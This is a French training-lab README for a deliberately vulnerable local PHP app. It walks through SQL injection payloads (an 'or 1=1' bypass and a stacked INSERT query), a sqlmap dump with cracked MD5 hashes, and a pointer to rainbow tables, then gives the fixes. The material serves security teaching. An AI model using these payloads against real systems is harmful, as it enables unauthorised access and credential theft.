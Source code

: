 # TP - formation sécu n°1

## Déroulement

Suivre les étapes et pratiquer ou suivre la vidéo.

## Démarrage

1. Récupérer le projet et lancer la plateforme

    >```bash
    >    git clone git@github.com:frederictriquet/formation_secu_1.git
    >    cd formation_secu_1/TP/
    >    docker-compose up
    >```

1. Se connecter à <http://localhost:8080/> avec un navigateur.
1. Cliquer sur __reset database__
1. Voir les mauvaises pratiques dans le code :

    - __webapp/webroot/reset.php__
        - les mots de passe sont stockés __hashés en MD5__
    - __webapp/webroot/sqli/index.php__
        - le champ __login__ du formulaire est utilisé directement dans la requête SQL

## Exploitation de l'injection SQL

Le champ __password__ est volontairement visible.
Les mots de passe se trouvent dans __webapp/webroot/reset.php__

1. Cliquer sur __SQL injection__
1. Tester le formulaire
    - __admin__/__incorrect__ : aucun utilisateur ne correspond
    - __admin__/__password__ : 1 utilisateur correspond

1. Dans le champ __login__, tester :
    > login = `'`

    Il n'est pas utile de saisir de mot de passe.

    Initialement, la requête SQL est :

    >```sql
    >$query  = "SELECT COUNT(*) FROM users WHERE login='$login' AND password='$hash';";
    >```

    La requête SQL envoyée à la base de donnée sera :

    >`SELECT COUNT(*) FROM users WHERE login=''' AND password='d41d8cd98f00b204e9800998ecf8427e';`

    Ce qui provoque une erreur de syntaxe au niveau des 3 quotes qui se suivent.

1. Première exploitation : détourner le fonctionnement du code

    > login = `' or 1=1 --`
    >
    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='' or 1=1 --' AND pass...";
    >--------------------------------------------------|_________|
    >```

    - La quote ferme la première chaîne de caractères
    - `or 1=1` est une condition toujours vraie
    - tout ce qui est après `--` est ignoré (commentaires)

    La requête SQL traitée par la base de donnée est donc :

    >```sql
    >SELECT COUNT(*) FROM users WHERE login='' or 1=1
    >```

    Cela va donc renvoyer le nombre d'utilisateurs présents dans la table __users__ au lieu de ne renvoyer que 0 ou 1 lors d'une utilisation normale.

1. Deuxième exploitation : exécuter une requête arbitraire

    > login = `';INSERT INTO users VALUES (12, 'fred', md5('fred')) --`

    La requête devient alors :

    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='';INSERT INTO users VALUES (12, 'fred', md5('fred')) --' AND pass...";
    >```

    La seconde partie est une seconde requête qui ajoute un utilisateur dans la table __users__.

1. Troisième exploitation : avec l'outil dédié __sqlmap__

    > docker-compose run sqlmap -u "http://web/sqli/" --data "login=someuser&password=letMeIn" --batch --dump

    Cet outil exploite les injections SQL et réussit ici à extraire le contenu et la structure des tables. Il sait déchiffrer les champs comme nos mots de passe hashés en MD5.

    ```data
        +----+-------+----------------------------------------------+
        | id | login | password                                     |
        +----+-------+----------------------------------------------+
        | 1  | admin | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 2  | alice | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 3  | bob   | e99a18c428cb38d5f260853678922e03 (abc123)    |
        | 4  | carol | 8ae1dd156c62f4f0b0b31c29b46f8e48             |
        | 5  | dave  | 437b930db84b8079c2dd804a71936b5f (something) |
        | 12 | fred  | 570a90bfbf8c7eab5dc5d4e26832d5b1 (fred)      |
        +----+-------+----------------------------------------------+
    ```

    Le mot de passe un peu plus complexe de l'utilisatrice __carol__ peut être retrouvé grâce à des [rainbow tables](https://en.wikipedia.org/wiki/Rainbow_table) disponibles par exemple chez [Hash Toolkit](https://hashtoolkit.com/).

## Corriger les vulnérabilités du code

1. modifier soi-même le code ou basculer sur la branche __secure__ :

    >```bash
    >git checkout secure
    >```

1. correction du problème de stockage de mots de passe

    - __webapp/webroot/reset.php__, remplacer

        >```php
        >$hash = md5($user[1]);
        >```

        par

        >```php
        >$hash = password_hash($user[1],PASSWORD_DEFAULT);
        >```

    - __webapp/webroot/reset.php__, remplacer

        >```sql
        >password CHAR(32) NOT NULL
        >```

        par

        >```sql
        >password CHARACTER VARYING(64) NOT NULL
        >```

    - __webapp/webroot/sqli/index.php__, utiliser __password_verify()__

1. correction du problème d'injection
    - __webapp/webroot/sqli/index.php__
        Utiliser les requêtes paramétrées (__pg_query_params()__) partout où des données viennent de l'utilisateur

## Autre mauvaise pratique

- __docker-compose.yml__ et __webapp/webroot/include/db.inc.php__
    l'utilisateur __root__ est utilisé pour toutes les requêtes à la base de données
